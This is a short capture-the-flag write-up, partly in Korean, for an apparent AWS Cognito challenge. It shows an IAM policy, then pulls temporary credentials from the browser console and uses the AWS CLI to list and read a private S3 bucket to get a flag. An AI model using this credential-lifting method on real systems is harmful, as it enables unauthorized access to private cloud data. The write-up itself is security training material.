

# Q.

We configured AWS Cognito as our main identity provider. Let's hope we didn't make any mistakes.

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "VisualEditor0",
            "Effect": "Allow",
            "Action": [
                "mobileanalytics:PutEvents",
                "cognito-sync:*"
            ],
            "Resource": "*"
        },
        {
            "Sid": "VisualEditor1",
            "Effect": "Allow",
            "Action": [
                "s3:GetObject",
                "s3:ListBucket"
            ],
            "Resource": [
                "arn:aws:s3:::wiz-privatefiles",
                "arn:aws:s3:::wiz-privatefiles/*"
            ]
        }
    ]
}
```

# A.



```

> export AWS_ACCESS_KEY_ID=...
> export AWS_SECRET_ACCESS_KEY=...
> export AWS_SESSION_TOKEN=...
> aws s3 ls s3://wiz-privatefiles/
> aws s3 cp s3://wiz-privatefiles/flag1.txt -
{wiz:incognito-is-always-suspicious}

```

# 풀이 설명

- 이미 해당 웹브라우저는 Cognito에 인증해서 임시자격을 얻었기 때문에 [F12] 개발자도구에서 Console을 통해 조회가 된다(`AWS.config.credentials`). 앞에서 확인한 정보를 터미널에 등록하면 S3 접근 권한을 얻게된다.

- 삽질한이야기) Cognito 이미지 주소에 있는 크리덴셜을 쓰려고 했으나 secret값이 없어서 못쓰고, 코드에서 얻은 IdentityPoolId를 가지고 임시자격증명을 얻어서 이 값으로 설정했는데 AccessDinied가 떴다. IdentityId가 다른게 뭔가 문제가 있는 것 같다. 버킷에서 제한된건지 궁금하지만 알 수가 없으니 다음으로 넘어가보자...

```
> aws cognito-identity  get-id --identity-pool-id
> aws cognito-identity get-credentials-for-identity --identity-id
```
